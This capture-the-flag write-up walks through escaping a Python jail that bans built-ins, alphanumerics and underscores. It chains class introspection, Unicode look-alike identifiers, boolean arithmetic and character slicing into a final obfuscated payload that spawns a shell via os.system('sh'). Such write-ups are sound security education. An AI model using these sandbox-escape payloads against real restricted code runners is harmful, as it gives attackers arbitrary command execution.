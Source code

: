 # [**Writeup**](#)

Our goal in this challenge is to bypass the restrictions and read the `flag.txt` file. The challenge restricts alphanumeric characters, underscores, and built-in functions. We will begin by bypassing the removal of the built-ins, which can be accomplished by exploiting Dunder Methods. There are several payloads that can circumvent the removal of built-ins; we will choose this one because it simplifies the process of bypassing alphabetic characters (more on this later):

```python
().__class__.__mro__[1].__subclasses__()[104].load_module('os').system('sh')
```

Before we proceed to bypass the restrictions on alphanumeric characters and underscores, we need to find the index of `<class '_frozen_importlib.BuiltinImporter'>` on the remote server, as this may differ from machine to machine. Given that we have the Dockerfile, we can test it on our local machine; in our case, it is located at index `107`. Our new payload is now:

```python
().__class__.__mro__[1].__subclasses__()[107].load_module('os').system('sh')
```

Now that we have a working payload, the next step is to bypass the restrictions on alphanumeric characters and underscores. We will start by replacing the alphabetic characters, which is straightforward. Python interprets Unicode alphabet characters as normal alphabet characters, and we can also bypass the underscore restriction using the same logic. This results in:

```python
()._＿𝘤𝘭𝘢𝘴𝘴_＿._＿𝘮𝘳𝘰_＿[1]._＿𝘴𝘶𝘣𝘤𝘭𝘢𝘴𝘴𝘦𝘴_＿()[107].𝘭𝘰𝘢𝘥_𝘮𝘰𝘥𝘶𝘭𝘦('os').𝘴𝘺𝘴𝘵𝘦𝘮('sh')
```

Next, we need to bypass two more elements: the numbers and the `os` and `sh` strings. We will start with the numbers. We can achieve this by concatenating boolean values such as `True + True`, which equals `1 + 1`, resulting in the number `2`. However, the challenge is that both True and False contain alphabetic characters. We can replace them with expressions such as `('' == '')` for `True`, and `('' != '')` for `False`.

```python
()._＿𝘤𝘭𝘢𝘴𝘴_＿._＿𝘮𝘳𝘰_＿[(''=='')+(''!='')]._＿𝘴𝘶𝘣𝘤𝘭𝘢𝘴𝘴𝘦𝘴_＿()[(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')].𝘭𝘰𝘢𝘥_𝘮𝘰𝘥𝘶𝘭𝘦('os').𝘴𝘺𝘴𝘵𝘦𝘮('sh')
```

Finally, we need to bypass the `os` and `sh` strings. We can do this by exploiting the magic attributes inherited by tuples `()`, which can be listed using the `dir()` function:

```python
>>> dir(())
['__add__', '__class__', '__class_getitem__', '__contains__', '__delattr__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getitem__', '__getnewargs__', '__getstate__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__iter__', '__le__', '__len__', '__lt__', '__mul__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__rmul__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'count', 'index']
```

Fortunately, we have the `__subclasshook__` attribute, which includes the characters `o`, `s`, and `h`. We can use `().__subclasshook__.__name__` to get the name of the attribute and then retrieve each character using subscript notation:

```python
().__subclasshook__.__name__[11] => 'o'
().__subclasshook__.__name__[2]  => 's'
().__subclasshook__.__name__[10] => 'h'
```

By replacing the numeric and alphabetic characters using the same method, we can construct the `os` string as follows:

```python
()._＿𝘴𝘶𝘣𝘤𝘭𝘢𝘴𝘴𝘩𝘰𝘰𝘬_＿._＿𝘯𝘢𝘮𝘦_＿[(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')] + ()._＿𝘴𝘶𝘣𝘤𝘭𝘢𝘴𝘴𝘩𝘰𝘰𝘬_＿._＿𝘯𝘢𝘮𝘦_＿[(''=='')+(''=='')]
```

## Wrapping everything up gives us the Final Payload:

```python
()._＿𝘤𝘭𝘢𝘴𝘴_＿._＿𝘮𝘳𝘰_＿[(''=='')+(''!='')]._＿𝘴𝘶𝘣𝘤𝘭𝘢𝘴𝘴𝘦𝘴_＿()[(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')].𝘭𝘰𝘢𝘥_𝘮𝘰𝘥𝘶𝘭𝘦(()._＿𝘴𝘶𝘣𝘤𝘭𝘢𝘴𝘴𝘩𝘰𝘰𝘬_＿._＿𝘯𝘢𝘮𝘦_＿[(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')]+()._＿𝘴𝘶𝘣𝘤𝘭𝘢𝘴𝘴𝘩𝘰𝘰𝘬_＿._＿𝘯𝘢𝘮𝘦_＿[(''=='')+(''=='')]).𝘴𝘺𝘴𝘵𝘦𝘮(()._＿𝘴𝘶𝘣𝘤𝘭𝘢𝘴𝘴𝘩𝘰𝘰𝘬_＿._＿𝘯𝘢𝘮𝘦_＿[(''=='')+(''=='')]+()._＿𝘴𝘶𝘣𝘤𝘭𝘢𝘴𝘴𝘩𝘰𝘰𝘬_＿._＿𝘯𝘢𝘮𝘦_＿[(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')])
```

# [**Solution**](#)
See the [solve.py](./solve.py) for the full implementation.
